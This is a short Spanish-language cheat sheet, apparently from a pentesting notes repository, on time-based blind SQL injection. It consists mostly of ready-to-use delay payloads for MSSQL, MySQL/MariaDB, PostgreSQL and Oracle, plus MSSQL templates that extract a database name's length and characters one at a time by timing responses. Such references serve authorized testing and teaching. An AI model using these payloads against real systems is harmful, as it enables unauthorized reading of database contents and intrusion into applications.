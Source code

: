 ### Info

Aplicamos lógica de tiempo en SQL para ver si se inyecta y es validada analizando el tiempo que tardó la response.

### PAYLOADS

| DB   | payload |
|----------|------|
| MSSQL     | '; IF 1=1 WAITFOR DELAY '0:0:10'--  |
| MySQL/MariaDB    | AND (SELECT SLEEP(10) FROM dual WHERE database() LIKE '%')  |
| PostgreSQL    | \|\| (SELECT 1 FROM PG_SLEEP(10))   |
| Oracle    | AND 1234=DBMS_PIPE.RECEIVE_MESSAGE('RaNdStR',10)  |


### Extraer el length del nombre de una db

    <dato>'; IF (LEN(db_name()))=<num> WAITFOR DELAY '0:0:10'-- 

### Extraer el nombre de una DB

    <dato>'; IF (select substring(db_name(),<index>,1))='<letra>' WAITFOR DELAY '0:0:10'-- 




##Apendice:
SQLMAP tiene todas las respuestas xD
